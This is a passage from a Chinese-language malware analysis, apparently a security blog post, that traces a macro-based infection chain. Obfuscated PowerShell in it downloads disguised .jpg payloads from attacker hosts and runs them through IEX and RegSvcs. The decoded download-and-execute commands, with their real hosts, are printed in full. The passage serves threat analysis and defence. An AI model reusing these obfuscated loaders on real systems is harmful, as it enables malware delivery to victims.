 恶意宏代码执行后会解密出如下命令：<br>`"$T='*EX'.replace('*','I');sal M $T;'(&amp;(GCM'+' *W-O*)'+'Net.'+'Web'+'Cli'+'ent)'+'.Dow'+'nl'+'oad'+'Stri'+'ng(''http://191.239.243.112/documento/cdt.jpg'')'|M|M"`

代码会从http[:]//191.239.243.112/documento/cdt[.]jpg下载文件到本地执行

### <a class="reference-link" name="cdt.jpg"></a>cdt.jpg

下载回来样本后缀为jpg，但实际上是一个powershell脚本，由于上面的powershell代码最后执行了IEX，所以这里后缀不会影响脚本的执行,和第一个样本不同的是，这里会尝试从两个地址下载不同的payload到本地执行

[![](https://p2.ssl.qhimg.com/t018927b66398eaba6c.png)](https://p2.ssl.qhimg.com/t018927b66398eaba6c.png)

通过代码可以得知，该段powershell代码通过IEX执行之后

会尝试下载http[:]//191.239.243.112/documento/njexp05jan[.]jpg到本地保为%APPDATA%cdtdaobumbum.vbs

会尝试下载http[:]//191.239.243.112/documento/njnyan05jan[.]jpg到本地保存为%APPDATA%cdtdaabuuda.vbs

下载成功则会通过start-process执行下载的vbs

### <a class="reference-link" name="njexp05jan.jpg"></a>njexp05jan.jpg

这里的njexp05jan.jpg实际上是一个vbs脚本。

njexp05jan.vbs格式和上一个样本所下载的vbs格式几乎一致，只有解密的powershell不同，本次样本执行的powershell代码如下：

[![](https://p2.ssl.qhimg.com/t01fe6112eb2f5c05a6.png)](https://p2.ssl.qhimg.com/t01fe6112eb2f5c05a6.png)

经过转换，执行的powershell代码如下：

<code>do<br>
`{`<br>
$ping = test-connection -comp google.com -count 1 -Quiet<br>
`}`<br>
until ($ping);<br>
$p22 = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072);<br>
[System.Net.ServicePointManager]::SecurityProtocol = $p22;<br>
[void] [System.Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');<br>
$fj=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'Dow$_$loadStri$_$g'.replace('$_$','n'),[Microsoft.VisualBasic.CallType]::Method,'http://empresariadohoteleiro.com/janeiro2020/rnpjaneiro03.jpg')|IEX;[Byte[]]$toto=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'Dow$_$loadStri$_$g'.replace('$_$','n'),[Microsoft.VisualBasic.CallType]::Method,'http://empresariadohoteleiro.com/janeiro2020/05janeironjexp.jpg').replace('[@_0](https://github.com/_0)','0x')|IEX;<br>
$obj =@('RegSvcs.exe',$toto);<br>
$g22=$a.GetType('Givara');<br>
$y=$g22.GetMethod('FreeDom');<br>
$j=[Activator]::CreateInstance($g22,$null);<br>
$y.Invoke($j,$obj)</code>

从代码可以得知，该powershell脚本还会尝试下载两个后续payload到本地并通过IEX执行。

下载链接分别为：
